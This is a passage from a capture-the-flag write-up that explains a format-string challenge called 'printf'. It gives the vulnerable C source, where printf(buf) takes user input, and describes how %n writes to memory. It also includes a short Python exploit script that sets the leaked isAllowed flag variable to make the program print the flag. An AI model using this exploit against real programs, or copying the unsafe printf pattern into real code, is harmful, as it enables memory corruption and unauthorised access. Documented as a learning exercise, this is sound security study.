 > `flag{sup3rrrrrr_s1mple_pwn}`

### printf

This was a pleasantly straightforward format string based binary which included the source code of the program. The only real prerequisite was knowing that you can use `%n` (and its variants) in the presence of a format string vuln to write to memory. Taking a look at the source code our main function of interest is:

```c

void authenticate()
{
    // find this buf
    char buf[200];
    char isAllowed = 0;

    printf("%p\n", &isAllowed);

    fflush(stdout);

    fgets(buf, 200, stdin);

    printf(buf);
    fflush(stdout);

    // todo -> flip this
    if (isAllowed)
    {
        printFlag();
    }
}
```

Which makes it clear our goal is to modify `isAllowed` to a non-zero value such that the check will pass and leak the flag. As mentioned our format string vulnerability, which is introduced just before the if case `printf(buf)`, can be exploited with `%n` to alter the memory at `isAllowed`.

Of note is that the binary also leaks the memory address of `isAllowed` which we can see in the source code just bellow the variable decelerations.

For format string challenges I use a little utility lib that I made myself, you can find it [here](https://github.com/Angus-C-git/SecSheets/blob/master/Binary%20Exploitation/FormatStrings/FormatStrings.md#automated-format-sting-payloads). Alternatively pwntools has one built in.

```python

# fmt
from formatstrings.fmt_string import build


# ::::::::::::::::::::::::: CONFIG :::::::::::::::::::::::::
PATH = 'Chals'
BINARY = 'printf'
HOST = 'ctfo.2pmc.net:10004'

## get da banner
log.info('Receiving banner ...')
isAllowed_addr = int(proc.recvuntil('\n', drop=True), 16)
log.success(f'isAllowed_addr: {hex(isAllowed_addr)}')

payload = build(isAllowed_addr, 0x42, 6)
proc.sendline(payload)

# shellit
proc.interactive()
```
